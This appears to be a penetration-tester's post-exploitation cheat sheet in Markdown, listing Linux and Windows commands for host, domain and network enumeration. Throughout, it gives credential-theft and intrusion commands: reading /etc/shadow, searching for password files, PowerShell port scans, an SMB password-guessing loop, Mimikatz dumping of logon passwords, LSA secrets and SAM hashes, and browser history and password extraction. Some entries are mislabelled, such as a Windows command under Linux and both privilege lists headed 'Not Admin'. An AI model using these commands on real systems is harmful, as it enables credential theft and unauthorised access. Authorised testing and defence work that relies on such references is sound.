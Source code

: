 ```yaml
---
title: Landing Commands
category: Post-Exploitation
order: 2
---
```


> **Linux**

Kernal version  | <code> uname -r </code>
Distro Version | <code>cat /etc/issue </code>
Determine Account | <code> whoami </code>
Add User | <code> useradd -d [home_dir] [login name] </code>
Privilidges |<code>  id </code>
Network Activity | <code> netstat -natu </code>
ARP Cache | <code> arp -a </code>
Routing Table | <code> netstat -nr </code>
Lockout Policy | <code> grep tally /etc/pam.d/* <br> grep tally /etc/pam.conf" </code>
Find Public IP Address | <code> curl icanhazip.com <br> nslookup myip.opendns.com resolver1.opendns.com </code>
Passwords and Users | <code> cat etc/passwd && cat etc/shadow </code>
Wifi Password | <code> /etc/NetworkManager/system-connections </code>
Gnome Keyring | <code> ~/.gnome/keyrings </code>
Find Interesting Files | <code> wmic DATAFILE where "drive='C:' AND Name like '%password%'" GET Name,readable,size /VALUE </code>
Find Interesting File Names and Perms | <code> find / -iname "shadow*" -perm /o+r -ls 2>/dev/null </code>
Find Interesting Content Files 1 | <code> grep -irIL pass /opt/ 2>/dev/null </code>
Find Interesting Content Files 2 | <code> find /home -iname "*.txt" 2>/dev/null -exec grep -c 2 -li  'pass' {} \; </code>
Find Interesting Content Regex | <code> find /home -iname "*.txt" 2>/dev/null -exec egrep -li "^.+@.+$" {} \; </code>

> **Local Windows Accounts and Processes**

Determine Account | <code> whoami, set username, echo %username% </code>
Determine OS Information | <code> wmic os get Caption <code>
Determine OS Information 1 | <code> systeminfo | findstr /B /C:"OS Name" /C:"OS Version" </code>
Determine OS Information 2 | <code> wmic computersystem LIST full </code>
Anti-Virus info | <code> wmic /namespace:\\root\securitycenter2 path antivirusproduct </code>
Patches Installed | <code> wmic qfe list brief </code>
Patches Installed  | <code> systeminfo </code>
Processes | <code> tasklist /V /FO CSV </code>
Services | <code> sc query </code>
List Users | <code> net user <br> wmic useraccount list brief </code>
Check Privs of Users | <code> net user [username] </code>
List Groups | <code> net localgroup [/domain] <br> net group [/domain] </code> 
List Administrators | <code> net localgroup administrators [/domain] </code> 
List Password and Lockout Policy | <code> net accounts or net accounts /domain </code> 
Find Public IP Address | <code> curl icanhazip.com <br> nslookup myip.opendns.com resolver1.opendns.com </code>
List Groups for Account | <code> DSQUERY USER -samid loginname | DSGET USER -memberof -expand </code>
Inventory Software | <code> dir /s  c:\Program Files > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt <br> set path </code>
Find Interesting Files | <code> ls -r -file -filter pass* </code>
Find Interesting Info in Files | <code> ls -r c:\ -file | % {select-string -path $_ -pattern mypassword} </code>

If using meterpreter run getprivs, you are an admin if it looks like this:

==============<br>
Not Admin<br>
==============<br>
  SeShutdownPrivilege<br>
  SeChangeNotifyPrivilege<br>
  SeUndockPrivilege<br>

==============<br>
Not Admin<br>
==============<br>
  SeDebugPrivilege<br>
  SeIncreaseQuotaPrivilege<br>
  SeSecurityPrivilege<br>
  SeTakeOwnershipPrivilege<br>
  SeLoadDriverPrivilege<br>
  SeSystemProfilePrivilege<br>
  SeSystemtimePrivilege<br>
  SeProfileSingleProcessPrivilege<br>
  SeIncreaseBasePriorityPrivilege<br>
  SeCreatePagefilePrivilege<br>
  SeBackupPrivilege<br>
  SeRestorePrivilege<br>
  SeShutdownPrivilege<br>
  SeSystemEnvironmentPrivilege<br>
  SeChangeNotifyPrivilege<br>
  SeRemoteShutdownPrivilege<br>
  SeUndockPrivilege<br>
  SeManageVolumePrivilege<br>

> **Windows Domain  Enumeration**

List Domain Info | <code> wmic NTDOMAIN GET DomainControllerAddress,DomainName,Roles /VALUE </code>
MSF Domain Info | <code> run post/windows/gather/enum_domain </code>
List Domain User Info | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_user where "ds_samaccountname='testAccount'" GET  </code>
List All Users | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_user GET ds_samaccountname </code>
List All Groups | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_group GET ds_samaccountname </code>
List Members of Group (e.g., domain admin) | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_group where "ds_samaccountname='Domain Admins'" Get ds_member /Value </code>
List all computers on domain | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_samaccountname </code>
List all computers on domain | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_dnshostname </code>
List Domain Controllers | <code> NETDOM QUERY /D:MyDomain DC </code>
List Domain Controllers | <code> DSQUERY Server </code>
List Member Servers | <code> NETDOM QUERY /D:MyDomain SERVER </code>
List all Workstations | <code> NETDOM QUERY /D:MyDomain WORKSTATION </code>
List all shares for a system | <code> net view [system] /ALL [/Domain] </code>

> **Windows Network Enumeration**

IP address | <code> ipconfig /all </code>
DNS Cache | <code> ipconfig /displaydns </code>
Arp Cache | <code> arp -a </code>
Network Activity | <code> netstat -na | find "ESTABLISHED" </code>
Routing Table | <code> netstat -nr  </code>
Firewall | <code> netsh firewall show state <br> netsh firewall show config </code>
Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code> 
DNS Lookup | <code> for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name" </code> 
PowerShell port scanner | <code> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.100",$_)) "Port $_ is open!"} 2>$null </code>
Scan a range of IPs for a single port | <code> foreach ($ip in 1..20) {Test-NetConnection -Port 80 -InformationLevel "Detailed" 192.168.1.$ip} </code>
PS IP range & port range scanner | <code> 1..20 | % { $a = $_; 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.$a",$_)) "Port $_ is open!"} 2>$null} </code>
PS test egress filtering | <code> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("allports.exposed",$_)) "Port $_ is open!" } 2>$null </code>
Password Guess | <code> for /f %i in (password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt </code> 

>**Mimikatz**

{% highlight bash %}
Mimikatz
\\get architecture
C:\beachead>SET Processor
\\Run correct mimikatz
C:\beachead>mimikatz32.exe
\\Obtain debug permissions
mimikatz # privilege::debug
\\log actions
mimikatz # log
\\Try and get logonpasswords
mimikatz # sekurlsa::logonpasswords
\\ dump all Active Directory domain credentials from a Domain Controller
mimikatz # LSADUMP::LSA /inject
\\Dump Hashes
mimikatz # LSADUMP::SAM
\\List Tokens
mimikatz # TOKEN::List
\\Get tickets
mimikatz # SEKURLSA::Tickets
\\mimikatz # lsadump::secrets
{% endhighlight %}

> **Browsers**

Finding user browser history and passwords in Firefox history:
{% highlight bash %}
sqlite3 ~/pilfered-firefox-profile/gn2uzbr6.Default\ User/places.sqlite sqlite> select * from moz_places where url like "%@%";

Cd ~/.mozilla/firefox/g4iiysbk.default/Cache
Strings [filename] | grep [file eg php]
{% endhighlight %}

Chrome: 
* [Browser Gather](https://github.com/sekirkity/BrowserGather)
* [ChromeDump](https://github.com/leechristensen/Random/blob/master/PowerShellScripts/Get-ChromeDump.ps1)
* [ChromeDump](https://github.com/xorrior/RandomPS-Scripts/blob/master/Get-ChromeDump.ps1)

> **Survey**

* [Clicky](https://gist.github.com/leechristensen/10999daab91b3b34108a9e7201838452)
* [WLAN keys](https://github.com/samratashok/nishang/blob/master/Gather/Get-WLAN-Keys.ps1)
* [SessionGopher](https://github.com/fireeye/SessionGopher)


> **Interesting Files**

Passwords.txt	| Users often create password files as reminders.
wp-config.php | 	WordPress configuration file. Stores database passwords.
key3.db / logins.json	| Password file for the Firefox web browser.
<custom>.sh	| Administrators often store plaintext passwords in automation scripts
fstab	| The fstab may contain passwords to mounted samba shares
*.pst	| Users may email passwords around. These can often be found in .pst files
  
> **Regex Library**

[regexlib](http://www.regexlib.com/)

